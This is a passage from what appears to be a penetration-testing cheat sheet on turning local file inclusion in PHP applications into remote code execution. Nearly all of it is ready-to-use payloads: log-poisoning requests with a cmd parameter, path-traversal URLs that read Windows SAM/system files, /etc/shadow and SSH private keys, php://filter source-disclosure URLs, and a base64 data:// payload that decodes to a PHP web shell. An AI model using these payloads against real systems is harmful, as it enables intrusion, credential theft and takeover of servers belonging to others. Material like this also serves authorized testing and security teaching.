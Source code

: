 Then request the logs via the LFI and execute your command.
```
curl http://example.org/test.php?page=/var/log/apache2/access.log&cmd=id
```

##### LFI to RCE via credentials files

This method require **high privileges** inside the application in order to read the sensitive files.
###### Windows version

First extract `sam` and `system` files.

```
http://example.com/index.php?page=../../../../../../WINDOWS/repair/sam
http://example.com/index.php?page=../../../../../../WINDOWS/repair/system
```

Then extract hashes from these files `samdump2 SYSTEM SAM > hashes.txt`, and crack them with `hashcat/john` or replay them using the Pass The Hash technique.

###### Linux version

First extract `/etc/shadow` files.

```
http://example.com/index.php?page=../../../../../../etc/shadow
```

Then crack the hashes inside in order to login via SSH on the machine.

NOTE: Another way to gain SSH access to a Linux machine through LFI is by reading the private key file, id_rsa. If SSH is active check which user is being used `/proc/self/status` and `/etc/passwd` and try to access `/<HOME>/.ssh/id_rsa`.
##### PHP Wrappers

###### Wrapper php://filter

The part "`php://filter`" is case insensitive
```
http://example.com/index.php?page=php://filter/read=string.rot13/resource=index.php
http://example.com/index.php?page=php://filter/convert.iconv.utf-8.utf-16/resource=index.php
http://example.com/index.php?page=php://filter/convert.base64-encode/resource=index.php
http://example.com/index.php?page=pHp://FilTer/convert.base64-encode/resource=index.php
```

Wrappers can be chained with a compression wrapper for large files.
```
http://example.com/index.php?page=php://filter/zlib.deflate/convert.base64-encode/resource=/etc/passwd
```

###### Wrapper data://

```
http://example.net/?page=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4=
NOTE: the payload is "<?php system($_GET['cmd']);echo 'Shell done !'; ?>"
```
